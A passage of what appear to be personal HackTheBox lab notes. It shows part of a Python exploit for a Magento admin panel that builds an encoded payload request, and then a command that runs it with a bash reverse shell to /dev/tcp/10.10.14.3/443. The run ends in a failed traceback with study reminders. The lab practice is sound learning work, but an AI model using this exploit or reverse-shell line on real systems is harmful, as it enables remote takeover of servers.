 ```bat

    br.method = "POST"
    request = br.submit()
    content = request.read()

    url = re.search("ajaxBlockUrl = \'(.*)\'", content)
    url = url.group(1)
    key = re.search("var FORM_KEY = '(.*)'", content)
    key = key.group(1)

    request = br.open(url + 'block/tab_orders/period/7d/?isAjax=true', data='isAjax=false&form_key=' + key)
    tunnel = re.search("src=\"(.*)\?ga=", request.read())
    tunnel = tunnel.group(1)

    payload = base64.b64encode(payload)
    gh = md5(payload + install_date).hexdigest()

    exploit = tunnel + '?ga=' + payload + '&h=' + gh

    try:
        request = br.open(exploit)
    except (mechanize.HTTPError, mechanize.URLError) as e:
        print e.read()
```
The code used to get inside the machine with a reverse shell

```bat
    kali@kali:~/Documents/Week3 -HackTheBox$ python 37811.py http://10.10.10.140/index.php/admin/ 'bash -i >& /dev/tcp/10.10.14.3/443 0>&1'
    Traceback (most recent call last):
    File "37811.py", line 55, in <module>
        br['login[username]'] = username
    File "/home/kali/.local/lib/python2.7/site-packages/mechanize/_mechanize.py", line 809, in __setitem__
        self.form[name] = val
    File "/home/kali/.local/lib/python2.7/site-packages/mechanize/_form_controls.py", line 1963, in __setitem__
        control = self.find_control(name)
    File "/home/kali/.local/lib/python2.7/site-packages/mechanize/_form_controls.py", line 2355, in find_control
        return self._find_control(name, type, kind, id, label, predicate, nr)
    File "/home/kali/.local/lib/python2.7/site-packages/mechanize/_form_controls.py", line 2446, in _find_control
        description)

    /// failed attempt 
    //read up on mechanize this could be a good thing to learn. It's useful to browse forms.
    //pdb is used for debuggin in python, should learn python indepth if I want to have a better time at this.
```

